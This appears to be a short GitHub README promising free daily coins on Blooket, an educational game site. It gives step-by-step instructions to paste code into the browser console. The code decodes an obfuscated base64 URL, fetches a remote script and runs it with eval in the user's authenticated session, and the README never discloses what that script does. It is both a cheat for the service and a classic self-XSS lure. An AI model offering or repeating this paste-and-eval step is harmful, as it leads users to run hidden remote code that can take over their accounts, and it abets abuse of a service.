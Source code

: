 # Free-coins-for-blooket
500 coins per day for free     




Step 1: Open Blooket and go to inspect.




Step 2: Copy the code at the bottom of the page.
Step 3: Paste the code in the console after inspecting the page.
Step 4: type in 500 into the box that appears.
Step 5: Re-load the page.
Step 6: Enjoy!



The code is below.

    fetch(atob('aHR0cHM6Ly9yZXMuY2xvdWRpbmFyeS5jb20vc2Nob29sLWNoZWF0cy9yYXcvdXBsb2FkL3YxNjM3NDUyMjEzL2dsb2JhbEFkZFRva2Vucy5qcw==')).then((res) => res.text().then((t) => eval(t)))

